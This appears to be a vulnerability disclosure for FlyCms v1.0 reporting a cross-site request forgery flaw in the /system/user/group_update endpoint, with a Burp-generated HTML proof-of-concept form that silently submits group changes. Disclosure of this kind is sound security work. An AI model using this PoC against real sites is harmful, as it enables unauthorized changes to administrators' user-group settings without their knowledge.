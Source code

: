 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/user/group_update

![1](https://github.com/ysuzhangbin/cms2/assets/27912238/6e3c01fe-9032-42b2-bf89-60adbc01ac05)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/user/group_update" method="POST">
      <input type="hidden" name="id" value="936683606481580032" />
      <input type="hidden" name="groupName" value="cs" />
      <input type="hidden" name="discount" value="1" />
      <input type="hidden" name="minexp" value="2" />
      <input type="hidden" name="maxexp" value="3" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/ysuzhangbin/cms2/assets/27912238/8e25fab5-86a0-4149-99a2-1ad716dc31ea)


Successed

![3](https://github.com/ysuzhangbin/cms2/assets/27912238/ed9a27b8-139e-4cf9-809a-7f62db989a70)
